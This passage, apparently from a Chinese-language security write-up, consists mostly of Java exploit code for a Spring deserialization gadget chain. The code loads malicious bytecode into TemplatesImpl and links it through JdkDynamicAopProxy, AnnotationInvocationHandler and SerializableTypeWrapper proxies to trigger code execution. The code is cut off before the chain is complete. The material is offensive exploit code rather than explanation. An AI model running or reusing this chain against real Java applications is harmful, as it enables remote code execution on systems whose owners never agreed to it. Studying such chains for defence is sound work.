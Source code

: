 exp 如下：

```plain
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.springframework.aop.framework.AdvisedSupport;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring2 {
    public static void main(String[] args) throws Exception {
        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        // 实例化 AdvisedSupport
        //JdkDynamicAopProxy 代理 AdvisedSupport，进入 JdkDynamicAopProxy#invoke() 触发 method.invoke() 触发 TemplatesImpl
        AdvisedSupport advisedSupport=new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        Class<?> JdkDynamicAopProxy=Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> AopConstruct=JdkDynamicAopProxy.getDeclaredConstructor(AdvisedSupport.class);
        AopConstruct.setAccessible(true);
        InvocationHandler invocationHandler= (InvocationHandler) AopConstruct.newInstance(advisedSupport);

        // 这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
        //并由JdkDynamicAopProxy代理,
        //invokeMethod()触发JdkDynamicAopProxy#invoke()从而连接起上面的内容
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class,Templates.class},invocationHandler);

        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        HashMap hashMap=new HashMap<>();
        hashMap.put("getType",TypeTemplates);
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass}, invocationHandler1);
        Class<?> MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
```